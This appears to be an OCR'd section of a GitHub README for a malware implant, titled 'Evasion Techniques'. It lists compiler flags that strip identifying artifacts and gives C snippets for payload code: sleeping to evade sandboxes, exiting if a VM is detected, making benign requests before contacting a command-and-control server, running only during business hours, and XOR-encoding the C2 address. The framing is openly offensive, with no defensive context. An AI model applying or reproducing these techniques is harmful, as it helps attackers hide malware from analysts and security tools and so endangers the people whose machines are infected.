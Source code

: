 
## 🕵️ Evasion Techniques

### 1. **Disable Console Window**
Already implemented with `-mwindows` flag

### 2. **Strip Compiler Artifacts**
```bash
# Removes GCC strings
-fno-ident

# Removes debug symbols
-Wl,--strip-all

# Removes export table
-Wl,--exclude-all-symbols
```

### 3. **Delayed Execution**
Add to payload code:
```c
// Sleep before connecting (evade sandbox)
Sleep(60000);  // 60 seconds

// Check if running in VM/sandbox
if (detect_sandbox()) {
    exit(0);
}
```

### 4. **Legitimate Behavior First**
```c
// Do something innocent first
download_file("https://www.microsoft.com/robots.txt");
check_for_updates();
// THEN connect to C2
```

### 5. **Time-Based Activation**
```c
// Only run during business hours
SYSTEMTIME st;
GetLocalTime(&st);
if (st.wHour < 9 || st.wHour > 17) {
    exit(0);
}
```

### 6. **String Obfuscation**
Don't store C2 address in plain text:
```c
// Encoded/encrypted C2 address
char encoded_host[] = "\x48\x4f\x53\x54";  // XOR encoded
// Decode at runtime
decode_xor(encoded_host, sizeof(encoded_host), 0x12);
```

---